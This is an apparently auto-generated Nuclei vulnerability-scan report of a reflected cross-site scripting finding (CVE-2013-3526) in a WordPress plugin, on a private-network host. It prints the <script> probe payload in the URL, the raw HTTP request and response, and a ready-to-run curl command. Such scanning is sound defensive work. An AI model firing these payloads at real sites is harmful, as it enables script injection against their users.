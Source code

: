 ### WordPress Plugin Traffic Analyzer - 'aoid' Reflected Cross-Site Scripting (CVE-2013-3526) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2013-3526**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/trafficanalyzer/js/ta_loaded.js.php?aoid=%3Cscript%3Ealert(1)%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:26 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Plugin Traffic Analyzer - 'aoid' Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2013, wordpress, xss, wp-plugin |
| Severity | medium |
| Description | A cross-site scripting vulnerability in js/ta_loaded.js.php in the Traffic Analyzer plugin, possibly 3.3.2 and earlier, for WordPress allows remote attackers to inject arbitrary web script or HTML via the aoid parameter." |
| CVE-ID | [CVE-2013-3526](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2013-3526) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /wp-content/plugins/trafficanalyzer/js/ta_loaded.js.php?aoid=%3Cscript%3Ealert(1)%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 227
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/trafficanalyzer/js/ta_loaded.js.php?aoid=<script>alert(1)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2013-3526
- http://packetstormsecurity.com/files/121167/wordpress-traffic-analyzer-cross-site-scripting.html
- http://osvdb.org/92197
- http://www.securityfocus.com/bid/58948

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/trafficanalyzer/js/ta_loaded.js.php?aoid=%3Cscript%3Ealert(1)%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)